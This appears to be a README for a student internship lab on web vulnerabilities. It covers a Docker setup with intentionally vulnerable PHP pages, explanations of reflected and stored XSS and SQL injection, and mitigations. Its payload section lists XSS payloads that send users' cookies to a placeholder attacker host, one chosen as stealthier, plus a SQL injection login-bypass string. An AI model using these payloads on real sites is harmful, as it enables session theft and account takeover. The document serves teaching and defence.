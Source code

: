 # Internship cyber security course
This repository collects tools and methodologies used in the context of system security intership
## Start the Lab
- Install docker for windows
- Clone\download this repository
- Start docker
- Open a command prompt inside the project root directory and execute the following command:

  		docker compose up --build
		
### For XSS vulnerability
- Visit the vulnerable page at: http://localhost:9000/xss.php

### SQLi vulnerability
- Initialize the SQLite db at: http://localhost:9000/initDB.php. You should get a response with "Done"
- Visit the vulnerable page at: http://localhost:9000/sqlI.php 

## Students
1. Dario Collini
2. Andrea Di Caro
## Analyzed vulnerabilities
- XSS reflected
- XSS stored
- SQL injection

## Payloads
### Reflected
    <script>window.location.href="http://<attacker IP>:8000/a.html?c="+document.cookie</script>
### Stored
Not the best approach, generates a bunch of requests, very loud

    <img src="x" onerror=this.src='http://<attacker IP>:8000/'+document.cookie; />
    
More stealth, use this one

    <script>i=document.createElement('img');i.src='http://<attacker IP>:8000/'+document.cookie;document.body.appendChild(img)</script>
    
###**SQLI**

```-a' OR 1=1 --

		

## Vulnerabilities Scenario and actions
### Steps for Vulnerability Analysis

#### 1. Information Gathering:
- **Application Observation**: Analyze the web application to identify points where user input is used to create SQL queries. These may include login forms, search forms, or any other form that interacts with the database.
- **Identifying Vulnerable Parameters**: Identify which parameters (e.g., query string, form fields, cookies) could be vulnerable to SQLi.

#### 2. Injection Testing:
- **Manipulated Input**: Inject various test payloads, such as `<script>alert(0);</script>`. A vulnerable application will run the script and display the alert.
- Once testing confirms vulnerability, the attacker may proceed with one of the following attack types:

---

### SQL Injection

**SQL Injection** occurs when attackers exploit flaws in poorly written PHP code to inject malicious code into a web application, leading to the execution of arbitrary commands on the server.

---

### Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** occurs when the server or application does not properly sanitize user input, allowing attackers to inject malicious scripts into web pages that will be executed in the browsers of users visiting the page.

#### There are 2 types of Cross-Site Scripting (XSS):
1. **Stored XSS**  
   Stored XSS is a type of Cross-Site Scripting where the malicious script injected by the attacker is stored on the server (e.g., in a database, file, or log).

2. **Reflected XSS**  
   Reflected XSS is a type of Cross-Site Scripting where the malicious code is not stored on the server but is instead reflected immediately in the server's response.

---

### Key Difference in Cookie Theft Methods Between Stored and Reflected XSS:

- **Stored XSS**: In this case, the attacker can redirect the user’s cookie to their own web server, which is always listening. This allows the attacker to steal the cookie every time someone visits the page.
  
- **Reflected XSS**: Here, the attacker needs the user to open a malicious link that leads to a website with a command that allows the attacker to redirect the user’s cookie toward them. This can only be done with some prior social engineering research to trick the user into clicking the link.

---

### Mitigation:

Mitigation refers to the methods we can use to make our websites secure and protected against these types of attacks.

- **Input Sanitization**: Filter user input to remove any malicious HTML or JavaScript tags.
  
- **Output Escaping**: Escape user input before displaying it on the HTML page, meaning converting special characters into sequences that are not interpreted as code by the browser.

- **Setting a Content Security Policy (CSP)**: Use a CSP to limit executable resources in the browser (such as scripts and styles) and prevent the execution of unauthorized scripts.


